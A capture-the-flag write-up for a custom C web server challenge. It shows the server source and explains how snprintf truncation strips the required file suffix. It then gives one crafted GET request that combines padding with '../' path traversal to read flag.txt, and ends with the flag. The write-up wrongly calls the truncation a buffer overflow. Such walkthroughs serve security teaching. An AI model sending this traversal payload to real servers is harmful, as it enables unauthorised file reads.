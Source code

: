 # Custom Web Server (1) ❌

## Challenge Description
> ![image](https://github.com/user-attachments/assets/6c6d3faa-1507-44b1-ab11-abcead353e6a)


## Approach
Download thefile, unzip, and read the code.

 ```c
#include <sys/types.h>
#include <sys/socket.h>
#include <stdio.h>
#include <netinet/in.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>
#include <stdbool.h>

#define PORT 8000
#define BUFFER_SIZE 1024

typedef struct {
    char *content;
    int size;
} FileWithSize;

bool ends_with(char *text, char *suffix) {
    int text_length = strlen(text);
    int suffix_length = strlen(suffix);

    return text_length >= suffix_length && \
           strncmp(text+text_length-suffix_length, suffix, suffix_length) == 0;
}

FileWithSize *read_file(char *filename) {
    if (!ends_with(filename, ".html") && !ends_with(filename, ".png") && !ends_with(filename, ".css") && !ends_with(filename, ".js")) return NULL;

    char real_path[BUFFER_SIZE];
    snprintf(real_path, sizeof(real_path), "public/%s", filename);

    FILE *fd = fopen(real_path, "r");
    if (!fd) return NULL;

    fseek(fd, 0, SEEK_END);
    long filesize = ftell(fd);
    fseek(fd, 0, SEEK_SET);

    char *content = malloc(filesize + 1);
    if (!content) return NULL;

    fread(content, 1, filesize, fd);
    content[filesize] = '\0';

    fclose(fd);

    FileWithSize *file = malloc(sizeof(FileWithSize));
    file->content = content;
    file->size = filesize;
 
    return file;
}

void build_response(int socket_id, int status_code, char* status_description, FileWithSize *file) {
    char *response_body_fmt = 
        "HTTP/1.1 %u %s\r\n"
        "Server: mystiz-web/1.0.0\r\n"
        "Content-Type: text/html\r\n"
        "Connection: %s\r\n"
        "Content-Length: %u\r\n"
        "\r\n";
    char response_body[BUFFER_SIZE];

    sprintf(response_body,
            response_body_fmt,
            status_code,
            status_description,
            status_code == 200 ? "keep-alive" : "close",
            file->size);
    write(socket_id, response_body, strlen(response_body));
    write(socket_id, file->content, file->size);
    free(file->content);
    free(file);
    return;
}

void handle_client(int socket_id) {
    char buffer[BUFFER_SIZE];
    char requested_filename[BUFFER_SIZE];

    while (1) {
        memset(buffer, 0, sizeof(buffer));
        memset(requested_filename, 0, sizeof(requested_filename));

        if (read(socket_id, buffer, BUFFER_SIZE) == 0) return;

        if (sscanf(buffer, "GET /%s", requested_filename) != 1)
            return build_response(socket_id, 500, "Internal Server Error", read_file("500.html"));

        FileWithSize *file = read_file(requested_filename);
        if (!file)
            return build_response(socket_id, 404, "Not Found", read_file("404.html"));

        build_response(socket_id, 200, "OK", file);
    }
}

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    struct sockaddr_in server_address;
    struct sockaddr_in client_address;

    int socket_id = socket(AF_INET, SOCK_STREAM, 0);
    server_address.sin_family = AF_INET;
    server_address.sin_addr.s_addr = htonl(INADDR_ANY);
    server_address.sin_port = htons(PORT);

    if (bind(socket_id, (struct sockaddr*)&server_address, sizeof(server_address)) == -1) exit(1);
    if (listen(socket_id, 5) < 0) exit(1);

    while (1) {
        int client_address_len;
        int new_socket_id = accept(socket_id, (struct sockaddr *)&client_address, (socklen_t*)&client_address_len);
        if (new_socket_id < 0) exit(1);
        int pid = fork();
        if (pid == 0) {
            handle_client(new_socket_id);
            close(new_socket_id);
        }
    }
}
```
> [!NOTE]  
> From the code we can analyse that the server:
> - Serves static files from a `public/` directory.
> - Only allows files with specific suffixes: `.html`, `.png`, `.css`, `.js`.

The code uses `snprintf` to concatenate `public/` with the requested file name:
   ```c
   char real_path[BUFFER_SIZE];
   snprintf(real_path, sizeof(real_path), "public/%s", filename);
   ```
The server uses a hardcoded buffer size of 1024 bytes. Specifically, this snippet is key:
   ```c
   #define BUFFER_SIZE 1024
   ```

If the `filename` string is **long enough**, the `real_path` buffer overflows, causing truncation. This allows bypassing the suffix restriction.

To trick the server into treating `flag.txt` as a valid file, a request is crafted with an excessively long path. The final `.js` suffix gets **truncated** due to the buffer overflow:

   ```plaintext
   GET    /././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././../../../../../../../../././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././flag.txt.js HTTP/1.1
   ```
> [!NOTE]
> Here’s what happens:
> 1. The long path fills up the `real_path` buffer.
> 2. The `.js` suffix overflows and gets truncated.
> 3. The server reads `public/flag.txt` and serves the flag!

Here’s the full HTTP request used to exploit:

![image](https://github.com/user-attachments/assets/69075c72-96cd-4964-a7a7-f7d3778d554e)

Sending the request gives us the flag!

![image](https://github.com/user-attachments/assets/17911b93-e248-4284-a1a5-091c3f6b39f1)

## Flag
hkcert24{bu1ld1n9_4_w3bs3rv3r_t0_s3rv3_5t4t1c_w3bp4935_1s_n0ntr1vial}

